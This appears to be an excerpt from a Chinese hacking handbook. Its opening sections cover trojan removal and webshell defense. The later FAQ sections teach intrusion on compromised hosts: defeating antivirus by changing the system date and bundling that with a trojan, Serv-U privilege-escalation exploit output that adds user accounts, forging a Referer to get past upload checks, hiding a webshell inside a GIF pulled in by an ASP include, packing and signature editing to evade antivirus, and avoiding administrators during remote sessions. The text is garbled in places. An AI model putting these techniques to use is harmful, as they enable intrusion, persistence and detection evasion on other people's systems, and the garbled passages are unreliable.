- `RunServices` 注册键：`RunServices`指定的程序紧接`RunServicesOnce`指定的程序之后运行，两者都在用户登录之前。位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices`和`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`。

- `RunOnce\Setup` 注册键：`RunOnce\Setup`指定了用户登录之后运行的程序，位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\RunOnce\Setup`和`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\Setup`。

- `RunOnce` 注册键：`RunOnce`通常用于运行程序在用户登录之后立即运行，位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\RunOnce`和`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`。

- `Run` 注册键：`Run`是自动运行程序常用的注册键，位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`和`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。

以上都是木马常见的藏身之处，如果发现了不正常的加载项，先备份注册表，然后在左边的窗口选中该项，点击鼠标右键，删除即可。此外，`HKEY_CLASSES_ROOT\exe\shell\command`和`HKEY_CLASSES_ROOT\txtfile\shell\command`的默认值应为`%1`。如果发现中间带有类似`C:\Windows\system.exe`的可执行文件，请立即清除掉，如图46所示。


清除方法为：鼠标右键点击该项，选择“修改”，去掉多余命令，只保留`%1 *`。初学者对注册表不大熟悉，强烈建议每次删除前备份注册表，错误删除后方便恢复。

最后讲一下某些特殊的处理：例如打开不是EXE格式的文件时该打开注册表编辑器，可以在`C:\Windows\regedit.exe`把该文件名后缀改为COM后再打开；如发现注册表被锁定，先去网上搜索注册表工具进行恢复，然后再对注册表进行编辑。

现今木马变得越来越狡猾，以上介绍的手工查杀只能解决一般的木马，一些隐藏性更强的木马所用的招术多种多样，篇幅有限就无法列举了，实践的经验有待大家积累。


如果你是一位从事网站维护工作的人员，那么就有可能遇到网站被黑的情况，被入侵后需要马上关闭网站进行清理。黑客在入侵后，除了修改首页，还会在网站中放置多个后门，如果后门不清除掉，黑客会利用这些后门反复进入网站，“一黑再黑”。清除黑客入侵后留下的脚本后门是一个极为费时费力的事，现在有一款工具可以很轻松地进行这一过程，这就是“中国站长助手”。这款工具本身就是由著名黑客L4KE2编写的，具有检测现今流行的各种后门，包括为了隐藏后门所建立的各种畸形目录的能力，并且还整合了SQL注入防护等其它功能，是一款脚本安全工具。

# 第四章 安全性分析及处理

- 1. （2）检查 ASP 文件调用的任意格式文件
- 2. （3）检查 ASP 木马可疑特征码
- 3. ……（以下略）


“雷克图站长助手”的容错性不是很强的，如果在扫描文件较多的时候出现错误，需要等一段时间最后都能扫出结果，但如果网站实在过于大，文件太多，建议还是采用逐个目录的扫描。

“要检查的路径”中填`\`，就是整站检查，而直接填入目录若表示对该目录单独侦测。该项主要是针对向网站原有 ASP 文件中插入木马进行的检测。

我们在“要检查的路径”处输入`\`，表示检测整个网站，一会儿就看到了扫描结果，如图49所示，最左边和最右边是发现的存在可疑问题的文件的相对路径和描述。

| 文件相对路径 | 特征码 | 描述 |
|---|---|---|
| `.\config.asp` | `Eval` | `eval()`函数可以执行任意ASP代码，被一些后门程序利用。其形式一般是：`eval(X)`。但是在JavaScript代码中也可以使用，有可能是误报。 |
| `.\config.asp` | `Execute` | `execute()`函数可以执行任意ASP代码，被一些后门程序利用。其形式一般是：`execute(X)`。 |
| `.\cook.asp` | `.CreateTextFile\|OpenTextFile` | 应用了FSO的`CreateTextFile\|OpenTextFile`函数读写文件。 |
| `.\Yx160.asp` | `Execute` | `execute()`函数可以执行任意ASP代码，被一些后门程序利用。其形式一般是：`execute(X)`。 |
| `.\numa.asp` | `(vbscript\|script\|javascript\|Jscript\|Encode` | 字符串用各种方式加密了，一般ASP文件是不会加密的。 |

“文件篡改检查”这一项是需要提前预防才能在此时发挥作用，它主要是针对单独放置的后门。它的作用是把整个网站的正常文件建立一个文件列表，黑客如果放置了后门，网站中会多出一个文件，经过对比发现异常就会报警。

客改动后放置的后门或木马。

“SQL 注入”是入侵防御中的一环，使用很简单，只要把这个代码放在`CONN.ASP`中就给我们的网站加上了一层防注入的屏障，如图 50 所示。

```asp
<!--#include virtual="/fake2/stopSQLin.asp" -->
```

“辅助插件”中有两个很重要的功能，如图 51 所示，“数据库安全保护”是为了防止虚拟主机上的数据库被黑客利用；“特殊文件夹检测”是防止黑客建立`1.1.1`这样的畸形目录，利用 Windows 对文件夹的识别漏洞来隐藏木马。


好好利用这个工具进行检测，在服务器中的 WEB 后门和木马基本都会被清除干净。

个人计算机上除了安装杀毒软件和防火墙外，还应该使用一些整合类的综合安全防护工具，因为它们的操作简单，又是中文界面，对于新手来说很容易。这里以“木马清道夫”为例，介绍一下这类工具的使用。


1. “进程信息”中能很方便的查看到木马隐藏起来的进程，如果发现有危险进程，该进程名会以红色显示。
2. “模块信息”中能探测可疑模块，可以搜出计算机中存在的无版权信息、非系统模块、但又在使用中并嵌入了系统的可疑模块。这些很可能是木马的模块，可将其删掉。
3. “启动管理”中能看到加载的启动项，可方便的删除可疑的启动进程，而不用到新手不了解的注册表中去查找，如图53所示。


4. “扫描进程”功能中，能方便的从内存中查找出木马，如图54所示。


# 第五章 入侵过程常见问题

5、“查看用户和用户组”功能中，可以看到计算机中的账号情况，如果发现有不是自己建立的账号，很可能是黑客入侵后留下方便再次进入的，包括黑客建立的隐藏管理员账号，都可以被发现，如图55所示。

6、“查看共享目录”功能可以像黑客一样对计算机进行检测，如果发现了共享目录马上删除。共享目录是入侵的桥梁，删除掉能阻断现在黑客广泛使用的手法。

7、“注册表扫描”能从注册表中找到被修改的地方，查找出注册表的异常改动后点击“修复”恢复到正常状态，如图56所示。


8、“扫描系统”功能类似一个检测工具，能查出计算机上有哪些系统漏洞。

9、“清理内存”功能可以整理和释放内存，提高机器运转效率。

使用这种整合类安全工具，新手很容易做到高手一样的事。

## 服务器如何防范Webshell？

Webshell给服务器带来的危害是显而易见的，黑客利用它完成对网站的操作，如修改页面、提升权限等。不过Webshell并不是万能的，不可防御的，如果对其有比较深的了解，还是可以防护，使黑客即便某些漏洞获取了Webshell也无法正常使用。Webshell对文件及命令行操作都是通过组件来实现的信息保存在注册表中，如果在注册表中作出改动，就能让Webshell正常调用。

### （1）卸载`WScript.Shell`和`Shell`组件

这两个组件相当关键，Webshell的执行命令就是通过它们实现的。提供一个批处理进行卸载，分为Windows2000和Windows2003版本。

Windows2000版的代码如下：

```cmd
regsvr32 /u C:\WINNT\System32\wshom.dll
del C:\WINNT\System32\wshom.dll
regsvr32 /u C:\WINNT\system32\shell32.dll
del C:\WINNT\system32\shell32.dll
```

Windows2003版的代码如下：

```cmd
regsvr32 /u C:\Windows\System32\wshom.dll
del C:\Windows\System32\wshom.dll
regsvr32 /u C:\Windows\system32\shell32.dll
del C:\Windows\system32\shell32.dll
```

将以上代码分别存为批处理文件，在相应的系统下执行即可。代码中的这些命令其核心就是注销了`shell32.dll`和`wshom.dll`，如图57所示，使之不能功能。


### （2）卸载`FileSystemObject`组件

这个组件就是常说的FSO了，即文件系统对象。Webshell通过该组件对文件系统进行操作，它是双刃剑，一方面网站的正常程序需要使用FSO，另一方面Webshell木马也是使用FSO控制网站。禁用FSO 后，在阻断Webshell利用的同时，会对用户的使用甚至程序的正常运行带来不便，请根据自身情况慎重选择。

卸载`FileSystemObject`组件有两个命令，也是分别对应的Windows2000和Windows2003操作系统。Windows2000注销此组件的命令是：`regsvr32 /u C:\WINNT\SYSTEM\scrrun.dll`；Windows2003注销此组件的命令是：`regsvr32 /u C:\Windows\SYSTEM\scrrun.dll`。现在使用FSO的相关功能就会出现如图58所示的提示。

```text
Microsoft VBScript编译器错误 错误 '800a03f6'缺少'End'
/iisHelp/common/500-100.asp，行242
服务器对象错误 'ASP 0177 :800401f3'Server.CreateObject失败
/web/bbs/upload.inc，行52
无效的ProgID。若要获取关于此消息更多的信息，请访问 Microsoft联机支持站点
http://www.microsoft.com/contentredirect.asp
```

图58

如果有网站运行不正常的现象需要恢复FSO，恢复的命令是：`regsvr32 scr.dll`。通过卸载这三个常被Webshell调用的组件，可以使目前大部分Webshell无法正常发挥功能，大大提高服务器的安全性。

## 11 没有条件安装防火墙和杀毒软件，如何尽力防护计算机安全？

作为一台计算机，防火墙和杀毒软件就和鼠标键盘一样，是必不可少的部件，如果没有安装，计算机中毒病毒几乎是无法避免的。轻则影响使用，重则损坏计算机。但是在某些特定的情况下（比如学校实验室的计算机、图书馆的计算机等），计算机上无法安装杀毒软件时，该如何保护我们的计算机呢？

现在我们本机开有telnet服务的23端口，该端口可以用来进行口令猜测等攻击，作为一台不引人的机器，口令很可能是123456这样的弱口令。内网中有人通过`nc`对23端口连接，如图59所示。

```text
D:\>nc -vv 192.168.1.2 23 (telnet): connect
sent 0, rcv 0
```

图59

让外部主机随意连接内网的计算机是非常危险的，例如IPC、共享文件夹等被利用。如果有防火墙，可以轻松地关闭端口，可是本机却不允许自己的软件。其实Windows下就了一些功能，比如“安全策略”。

- 点击“开始”-运行“`mmc`”弹出控制台。

- 依次选择“文件”-添加，在“安全”标签项中点击“添加”，选择安全策略。

- 这时，我们把“IP安全策略”添加到本地计算机下了，如图61所示。

- 双击“IP安全策略”就可以新建一个规则，如图62所示。

- 打开IP安全策略向导，点击“下一步”，在名称中输入策略名：“关闭23端口”，如图63所示。


然后“下一步”，源地址选择“任何IP地址”，目标地址选择“我的IP地址”。在“协议”标签项中，注意类型为“TCP”，并设置协议端口。选择“从任意端口”和“到此端口”，并输入端口号，如图67所示。

最后点击“确定”即可。在“IP筛选器列表”中会出现一个“阻止TCP和ICMP数据包”，如图68所示。选中它，点击“下一步”，切换到“筛选器操作”标签项，点击“添加”，首先添加“身份验证”，再依次选择“添加”——“阻止”——“完成”。现在来到“IP安全策略”处，刚才新建的“关闭23端口”策略已经出来了，如图69所示。

在它上面鼠标右键，选择“指派”就设置好了。现在在内网中再次连接本机的23端口，显示信息如图70所示，已经无法连接。


```text
D:\>nc -vv 192.168.1.2 23
sent 0, rcv 0
```

图70

通过以上设置，这样起到防火墙一样的作用。如果此时黑客通过IPC等漏洞连接上后，就会无法连接的提示。

## 12 黑客是怎么让杀毒软件过期的？

市场上主要的杀毒软件有诺顿、金山、瑞星、杀巴等，其中杀巴率先采用了一项强大的防护，就是主动防御，也叫行为检测。这种方法别于以往根据特征码，黑客不管如何改特征码，最后都会发出提示。即便你制作了一个完全免杀的木马，运行时如图71所示。


难道不能让我的杀毒软件过期吗？当然，真正的突破，涉及到很深的技巧，作为初学者很难的。但是通过一种策略，如果时间过期，原来的注册文件就不有效了。

下面来看看分析过程：

- 使用杀毒软件需要注册，并且注册有一定的时效性，如果时间过期，注册文件就不再有效。

- 策略把验证过程设定为当前时间（就是桌面右角里的时间）内过期，如图72所示。


现在思路明确了，只要把计算机的时间改成它的过期时间，就能让杀毒软件停止响应。注册有效期最长的过五年，现在是2008年，我们试着把时间改到五年前，命令很简单，可以在`CMD`模式下直接输入`Date 2003-1-1`，也可以将命令拷贝到记本中另存为后缀为bat的批文件。执行命令后，我们把鼠标移动到屏幕右角的时间显示处，提示为2003年1月1日，如图74所示。


图74

现在杀毒软件就已经停止工作了，这个方法虽然有很多问题，比如时间被改后会被发现、杀毒图标变成灰色引人怀疑等，不过已经成功达到了种下木马的目的，获得了我们想要的东西，总之已达目的。


可以把这个bat文件和我们第三章《黑客入侵常用技巧》一节中教的制作“万能捆绑”的方法结合起来，如图75所示，在运行木马前运行这个bat，就能让杀毒软件失效。


- 怎样防止自己的木马被查杀呢？

- 盗出管理员密码后却是加密的，怎么得到未加密的明文？

- 我用远程登录对方电脑的远程桌面后，他会发现吗？我操作他的电脑会影响到他用鼠标键盘控制电脑吗？

- 如果一个CMOS用户被删除了，无法执行命令该怎么办？

- 所谓的“穿越防火墙”技术是如何实现的？

- 为什么肉鸡上运行着远程桌面服务，可是无法连接到对方的远程桌面？

- 我使用端口攻击器扫描连接上一台有漏洞的电脑，为什么在复制文件时出错？

- 为什么在Windows2000下上传总是失败？

- SA权限注入点无法建管理员账号，也无法备份，该怎么办？

- 下载得到的数据库却没有密码，该怎么打开？

- 手把手教你制作个人的简单黑页的方法。

- 为什么我通过小马上传文件总是失败？

- 我的Webshell总是被经验丰富的管理员发现并删除，有没有更隐蔽的放置的方法？

- 怎么突破外部防火墙？

- 如果过滤了单引号如何注入？

- 我找到了SA了，为什么不能提升权限？

以看到在这个 Serv-U 中默认的本机管理密码被改成了 `nonacktes*#00`，如图4 所示。

```text
<221 Serv-U FTP Server v6.0 for WinSock ready...
>USER LocalAdministrator
<331 User name okay, need password.
***************************************
>PASS #1@qak#.1k;OQP
<530 Not logged in. 看到这一行了吧? 所以下面的命令并没有执行。
<421 Maximum session time exceeded - closing.
>SITE MAINTENANCE

[+] Creating New Domain...
[+] Domain Haxorcitos:0 Created
[+] Creating Evil User
[+] Now Exploiting...
>USER haxorcitos
>PASS whi tex0r
[+] Now Executing: net user lotos /add
```

```text
<221 Serv-U FTP Server v6.0 for WinSock ready...
>USER LocalAdministrator
<331 User name okay, need password.
***************************************
>PASS #1@qak#.1k;OQP
<220 logged in. proceed
***************************************
>SITE MAINTENANCE
***************************************
[+] Creating New Domain...
[+] Domain Haxorcitos:0 Created
[+] Creating Evil User
[+] Now Exploiting...
>USER haxorcitos
>PASS whi tex0r
[+] Now Executing: net user nohack 12345678 /add
```


接下来我们要用这个新的密码，生成一个有针对性的新的 Serv-U 溢出利用工具。首先切换到“文件生成”工具栏，输入刚才的密码，点击“生成”即得到了一个用户本地管理密码 `nohacktest*` 并登录的溢出工具。这款工具还能生成 asp、aspx、php 等多种格式的利用工具，如图 5 所示。


另外，管理员还能用修改本地管理的默认端口 43958 的方法来防止提升权限。只要找到通过测试我出的修改的端口，同样也可利用此程序来修改端口，生成专门的溢出工具。

以上是 Serv-U 在溢出时提示无法登录，提权不成功的可能原因。还有一种情况，虽然我们登录成功，但还是无法建立账号。根据笔者的经验，很大可能是建账号工具 `net.exe` 被设置了单独使用的权限，或者是被改名删除了。

遇到这种情况，我们可以使用 `net.exe` 的替身文件 `net1.exe` 执行账号添加操作。`net1.exe` 常被管理员忽视，它和 `net.exe` 都位于 `%systemroot%\windows\system32` 目录下，如图 6 所示。


```cmd
net user nohack 12345678 /add
```

只需要把提权工具后面双引号中的命令 `net user nohack 12345678 /add` 即可。


我们在用 `nc` 抓包上传时常遇到提交不了数据的情况，出现的原因有很多。有些时候，在提交的数据中返回了“禁止从外部提交数据”等字符，这更明确的指出了问题的所在，有可能是网站禁止从外部提交数据引起的。这一节就简单介绍一下绕过“禁止本地提交”的方法。

在某网站我们通过 `nc` 提交数据时遇到如图 7 所示的出错提示，提交不成功。

出现这种无明显出错提示的无法提交，是有很多原因的，本节的内容只是尝试能否以下面的方法来解决。

```text
:\hacksofe\nc>nc -vv … .com 80<11.txt
Warning: inverse host lookup failed for … : h_errno 11004: NO_DATA
… 80 (http) open
HTTP/1.1 400 Bad Request
Content-Type: text/html
Date: Sun, 15 Jun 2008 18:27:24 GMT
Connection: close
Content-Length: 35
<h1>Bad Request (Invalid Verb)</h1>sent 2356, rcvd 164
```

图 7

我们先抓包看看提交的数据是什么样的，如图 8 所示，然后再与一般的提交数据进行一下比较。


图 8

先把无法提交时抓到的数据复制到记事本里，再打开一个正常提交的网站抓下数据。下面的第一段代码是正常提交的数据包，第二段代码是无法提交的网站包，大家看关键代码。

第一段：


# 第五章 入侵过程常见问题

```
POST /BBS/FileLoad.aspx HTTP/1.1
Accept: image/gif, image/xbitmap, image/jpeg, image/pjpeg, application/xwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/x-silverlight
Referer: http://www.xxx.com/fileload.aspx?catalog=0&action=add&phototype=0
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=------------------7d81863403ec
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET 2.0.5072)
Host: www.pcegg.com
Content-Length: 1727
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: AJSTAT_ok_times=6; forever.pcegg.com=UserID=i8YoMd7Fw=&Time=95;
```

第二段：

```
POST /864/classalbum.asp?action=upload HTTP/1.1
Accept: image/gif, image/xbitmap, image/jpeg, image/pjpeg, application/xwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=------------------7d32aed0c4
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; QQDownload)
Host: pctest00.wctv.com
Content-Length: 8327
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONID=PMKC; fengyue=class=0&xlusi=admin&ixpwd=1111&loginTime=2008-09-16 20:57...7d32aed0c4
Content-Disposition: form-data; name="pictype"
```

经过对比，发现两段代码中有一个关键之处：第一段正常提交的代码中有 `Referer: http://www.xxx.com/fileload.aspx?action=add&phototype=0` 这一行，而第二段没有。

`Referer` 函数可以判断用户是从页面过来的，也就是能分析来源，可以先判断目标网站可能是用了这个函数进行判断。知道了关键点，思路也就应运而生，只需在无法提交的没有 `Referer` 的数据包中加上这一行。

我们直接在 `Referer` 后面加上目标站的域名和提交的文件名，这里目标网站用 `www.xxx.com` 代替，再加上提交的文件 `/864/classalbum.asp?action=upload`。添加后的完整语句是 `Referer:http://www.nohack.com/864/classalbum.asp`，如图9所示。再次提交后，成功绕过“禁止外部提交”。


大多数朋友放置 WEBSHELL 的一般方法，就是在网站上放老鸟或海洋之类的木马，这实在是浪费时间。高手一般不放大马，怕引起注意，而是换用二句话木马，需要时再传大马。

这已经有了初步的木保护意识，宁可多带脚也要多求安全。不过这种方法还是太明显，其实我们可以做得更好。

先说说思路：在 asp 编程中我们常常接触包含语句，通俗来说，就是在一个 asp 里调用另一个文件。假设现在有一个 `nohack.asp` 文件，代码如下：

```asp
<!--#INCLUDE FILE="setup.asp]-->
<!--#include file=char.asp-->
<!--#include file=checkuser.asp-->
<!--#include file=email.asp-->
<title><%=SchoolmateName%>——管理员</title>
<!--#include file=css.asp-->
<body alink=#33333 vlink=#33333 link=#33333 topmargin=0 bgcolor=<%bodycolor%>>
```

```asp
<%
if not sysadmin or session("adminlogin")<>"OK" then
    Errmsg=Errmsg+"<br>+"<li>本页面为管理员专用，请<a href=sysadm_index.asp target=_top>登录</a>后进入。"
    call Error("Information", errmsg)
else
    call main()
    set rs=nothing
    call endconnection()
end if
```

在这段代码的前几行，分别引用了 `setup.asp`、`char.asp`、`checkuser.asp`、`email.asp` 等几个文件，被引用的这些文件不论后缀名是什么，都会在访问时以 asp 解析。也就是说，如果引用的文件是除 asp 以外的文件，在访问 `nohack.asp` 时也会被当成 asp 文件解析。

我们可以利用这个特性安置很隐蔽的后门，就是将一个木马做成图片木马，并且改后缀为 gif，放置到网站的图片文件目录，比如 `upfile/20080608234413.gif`。然后在一个 asp 文件的第一行写上 `<!-- #INCLUDE FILE="./upfile/20080608234413.gif" -->`。这样在访问包含这段代码的 asp 文件时就调用 `upfile/20080608234413.gif` 功能，而访问的是正常的图片，不是有经验的管理员看不出来这段代码的用意。

下面我们就来操作一下。先找一张图片，把一句话木马和它绑在一起（制作木马的方法就不详述），文件为 `images/20080608234413.gif`。访问一下文件，发现是以图片的，如图10 所示。


找一个已有的或新建一个 asp 文件，比如 `1.asp`，在源代码第一行写上 `<!-- #INCLUDE FILE="images/20080608234413.gif" -->`，保存后放到网站上。然后访问 `http://www.xxx.com/1.asp` 可以访问木马，如图11 所示。


## 4 为什么通过小马上传文件总是失败？

在某网站已经有小马 WEBSHELL 了，可是不久发现，上传大马总是失败，如图12 所示。通过上传后的提示“oh no!”并不是上传被杀，因为上传后的症状是“上传成功”，可是访问木马地址却找不到文件。反复试多次无法成功，生成的路径是对的。把写入的内容换成非木马测试，结果仍无法生成，说明不是过滤导致的上传，如图13 所示。

这种症状的无法生成，就是目录限制了权限。解决方法是从网站中找到没有写权限的目录，把它作为木马生成即可。但是网站目录多，光靠人工从源代码找各个路径实在困难了，我们需要借助工具。工具“网际车”有一个“资源探测器”的功能，本来是用来查找服务器上的各个文件夹，在这里方便地查看网站包含的目录。启动“网际车”，进入“资源探测器”，也可以用快捷键启动，如图14 所示。

在工具地址栏中输入网站地址 `http://www.xxx.com`，然后回车，工具开始探测网站，如图15 所示。


探测的结果显示在左边。请注意：如果是单选显示的目录，说明该目录下还有级目录，点击这个目录继续探测下级目录。这样整个网站的目录结构完全在我们面前了，如图16 所示。


## SA权限无法建管理员账号，也无法备份 WEBSHELL 时怎么办？

当我们手里有一个 `SA` 注入点时，入侵的思路通常有两种。一种是直接执行命令，在第一章《数据库入侵技术》中介绍过，可以通过 `cmdshell`、`wscript.shell`、`oscreate` 三模式执行命令。如果这三种模式都被删除了，则无法执行命令，如图18 所示。


这样只能退而求其次，把 `SA` 权限当成 `DB_OWNER` 权限来用，然后找 web 绝对路径，接着建表插马，备份 WEBSHELL。可有时候也有无法建表和导出失败的情况，更有者这台安装有 MSSQL 的服务器与 web 服务器是分离的，不是同一台服务器，根本就没法备份 WEBSHELL……这种情况下难道就没有办法了吗？

还有一个办法可以试试，用沙盒模式执行命令。简单的来说，沙盒模式是一种安全功能，在沙盒模式下，ACCESS 只对控件字段属性中的安全且不含有恶意的代码表达式进行求值。检查是不是空密码。空密码用户在 WIN2000、WIN2003 下无法远程登录（WINXP 可以空密码远程登录，但是只有 GUEST 权限），必须要对登录账户设置一个密码或者新建一个有密码的账户；

## （2）提示超过了允许的最大连接数的错误

这通常是组策略里限制了允许远程连接的人数。单击“开始”→“运行”，输入 `gpedit.msc`，再依次选择“计算机配置”→“管理模板”→“Windows 组件”→“终端服务”，如图24 所示。


双击右边的“限制连接数量”，选择“已启用”，填入允许的最大连接数，再次连接即可。

在 3389 中，断开和注销是两个不同的概念。虽然一个用户断开了，但他的会话是没有停止的，当他下次登录时，可以直接进入上次断开的会话，而不需要重新会话。这样系统会认为有 2 名用户连线，所以会出错，这时需要注销掉这一用户登录（你要系统管理员权限）。

肉鸡上使用命令 `query user`，查看当前终端服务器中的用户列表，如图25 所示。


再用 `logoff ID` 命令踢除登录的其他用户，`ID` 号为从 `QUERY USER` 命令获得的账号 `ID`。另外，WINXP 只允许一个远程用户连接计算机。

## （3）提示远程连接已超时，请重新连接到远程计算机

这是系统有问题，用户登录后注销不了，卡在上面了，所以下一个用户登录不进去。我们可以按照第（2）问题的方法在 WEBSHELL 上解决，最后再尝试远程终端登录，如图26 所示。


## （4）提示不能初始化远程桌面连接

因为远程计算机上的 Windows 登录软件已经被图形化鉴别和身份验证的不兼容软件所替换，是由于你在计算机上安装的第三方远程连接程序的登录文件（即图形标志和身份验证文件 `Msgina.dll`），与远程主机的系统远程桌面不兼容造成的。

卸载安装第三方远程连接工具后，将这个 `Msgina.dll` 登录文件从其他同版本 Windows 的计算机中复制一个并拷贝到你计算机中的 `系统盘符\Windows\system32` 目录下即可。

> 如果是因为远程主机的 `MSGINA.DLL` 文件被改变所造成的无法连接，在修改覆盖远程机器上的 `MSGINA.DLL` 文件时一定要将它进行备份，出错时方便恢复。

## （5）提示无法连接到计算机

如果在连接远程桌面时提示无法连接到计算机，请检查输入的计算机名和 IP 地址是否正确，如图 27 所示。


- 原因1：目标计算机可能在内网。用命令 `TELNET 目标主机IP 3389` 测试是否能被外部访问，如果不能访问则说明目标主机在内网，可以尝试反向连接。
- 原因2：远程主机可能改了端口。使用扫描器扫描对方打开的端口，然后再尝试连接。
- 原因3：远程计算机上有防火墙。使用其它可连接远程计算机命令行的方式，如 `TELNET`，关闭防火墙再次连接，也可以尝试反向连接。
- 原因4：请注意，远程终端服务处于运行中，不代表已经准许连接。如果在 WINDOWS XP “我的电脑”→“远程”→“允许用户远程连接到计算机”中没有被选择，即使 Terminal Services 在运行，也无法连接，如图 28 所示。建议参照开启 3389 远程桌面的方法，再开启一次终端服务。


## 7 我使用 msf攻击器IPC 连接上了一台有漏洞的电脑，为什么在复制文件时提示出错？

已经建立了 `ipc$` 连接，但是在复制文件的时候提示出错，原因可能有以下几个方面：

关闭占用该文件的进程后再复制即可。


### （5）IPC连接依赖的服务被禁用或破坏

因为 IPC 是一种很危险的漏洞，很容易被黑客利用，一些个人计算机也用不上这个功能，所以很多安全意识比较高的用户为了安全考虑，禁止了这个服务或作了破坏。这是最绝的一招，就好像给 IPC 做了割除手术，这种情况下是再也无法进行 IPC 连接的，如图32 所示。

```
D:\>net use \\192.168.1.12\ipc$ "" /user:"administrator"
System error 67 has occurred.
The network name cannot be found.
```

图32

在入侵中，我们使用的木马几乎是不可能是免杀版，免杀的只有那些黑市上很昂贵的商业木马或者某些个人和组织为自己特制的专用木马，作为普通黑客技术爱好者是不可能得到的。那么毫不夸张地说，想玩木马就必然要将自己的木马改为免杀的版本。

让木马不被查杀，常用的方法也就那么几种：一、加壳；二、修改特征码；三、修改程序。这是常见的三大手段，而且每种方法里面还有不同的免杀方法，比如加壳防杀主要就有：1、加压缩壳；2、加加密壳；3、加虚拟壳；4、加多重壳；5、加伪装壳；6、打乱壳的头文件等方法。

程序在加壳之后通常会很大，这时加个“壳”给它“包装”一下，能使程序变小，这就是压缩壳的作用。压缩之后文件结构变化了，理论上是能防杀的，不过现在的杀毒软件大部分能自动检测常见压缩壳的文件，此方法已不太好用。

常见的压缩壳有：UPX（如图33）、ASPack（如图34）、Petite（如图35）、PECompact（如图36）、PE-PACK（如图37）、WWPack32、Neolite、Sminker 等。


压缩壳加壳工具的使用非常简单，基本上都是先选择程序，然后直接压缩。压缩壳主要针对诺顿杀毒软件有效因为它的特征码通常是在文件中，被压缩后位置发生了，从而达到了免杀的效果。

加密壳又叫保护壳，等于是在“包装”之后再加锁，让其不易破解；压缩壳顾名义就是加密壳，如果用少量壳来加木马可能会起防杀的效果。常见的加密壳有：ASProtect（最难脱壳）、Armadillo（如图38）、VIP、Xtreme-Protector、Obsidium、PKLITE 等。


多重壳就是把各种壳加一次，让杀毒软件无法识别；这种壳对杀毒软件有效。伪装壳是把壳装成另一种壳，让木马无法识别；打乱头用 PE 头加壳就能办到。以上主要是依赖工具，但这并不是免杀方法。真正的免杀是采用特征码和改程序，这两种方式的操作复杂，以后的篇幅会特别介绍，此节只介绍一下。大部分杀毒软件是通过特征码来识别，然后进行查杀。特征码就是程序中的某一些字符，如果改掉特征码就能让木马逃过查杀。


# 第五章 入侵过程常见问题

修改特征码一般先通过工具来定位特征码的位置，然后用汇编工具`OllyDbg`把程序载入后修改特征码处或者替换为相应的功能。对于内存查杀的杀毒软件，例如瑞星，只能用特征码的方法免杀，其它修改方法如跳转或加指令。这里又出现了两个名词——“内存查杀”和“文件查杀”，有必要解释一下。“内存查杀”的意思是对程序调入内存之后的情况，“文件查杀”就是运行之前的查杀，这中间是有区别的。打个比方，对对程序就好像被包装了很多层，这样是免杀了。可是到了使用时，被调入了内存，那一层包装也就剥去了，露出来的程序自然要被杀毒软件查杀。所以，对程序的“文件查杀”和“内存查杀”都做了修改，才算是全面的。


如果没有防火墙，是不会发现的。如果对方装有防火墙，在连接时防火墙会报警，提示“IP XX.XX.XX 试图连接本地3389端口”。3389连接后，系统会对远程用户再分配一个桌面，就类似同时在远程主机上运行了两个 Windows 的登录系统。你使用一个，主机使用一个，他是不会发现有什么异常的。


有经验的管理员可以通过`query user`命令查看登录用户，返回信息，如图40所示。用户名为 anter；终端服务器上的会话名为 rdp-tcp#10；会话ID为3。会话的状态（活动或断开连接）为运行中，表示正在连接中；空闲时间（在该会话中上次敲键或鼠标移动以后经过分钟数）是用户登录的日期和时间。如果发现非法连接用户，则可用`off ID`命令踢出用户，`query user`和`logoff`命令只在服务器版的 Windows 操作系统下才具有，Windows XP 系统没有这两个命令。


同样的，我们在服务器上操作时，也要时刻注意是否有管理员权限登录。在图形界面下，可以在“Windows 任务管理器”的“用户”选项卡中时刻留意此时远程连接上机器的用户。如果某个管理员或“同行”连接上，赶快自己下线吧，如图41所示。


以上就是在远程桌面登录状态下几个用户之间会造成的影响和方法，曾经有个脚本，代码如下：

```bat
begin
    query user|find "console"
    if errorlevel 1 goto begin
```

将这段代码保存为`BAT`后缀文件在服务器上运行，当管理员使用`query user`命令查询有哪些登录用户时，系统会马上断开服务器与你的连接，这样管理员就无法查询到你的异常登录了。但经过笔者测试，这样会使主机上生成大量的`cmd.exe`，并且有时会发出报警并影响网速，反而引起不必要的麻烦。最好不要使用。登录主机后用“Windows 任务管理器”看着“用户”，这是比较稳妥的办法。


穿过防火墙的方法有很多，比如碎片包、其它协议等方法。难度很大，需要深入理解网络知识并配合专业工作才能使用。今天给大家介绍一个思路绕过防火墙的方法。假设现在有一个网络环境：一台主机 IP 为`252.1.1.3`，为内网提供服务，内网要访问`http://www.nohack.com`必须以`252.1.1.3`的8001端口为代理，然后由`252.1.1.3`的`http://www.nohack.com`后转发到内网访问主机。`252.1.1.3`在内网的 IP 为`10.0.1`，同时这台服务器上还安装内部的 WEB 站点。防火墙设置中仅有`127.0.0.1`和`10.0.0.x`的内网主机可以访问，请看图42 所示的网络拓扑。`252.1.1.3`都提示拒绝，这种情况是典型的内网对外配置，经常采用这种方法。


我们总结了一下，这个网络环境主要有两条：

- (1) 一台服务器作为代理服务器，同时运行着一个内部的 WEB站点，仅对 IP 为`127.0.0.1`和`10.0.0.x`的内网段开放权限。

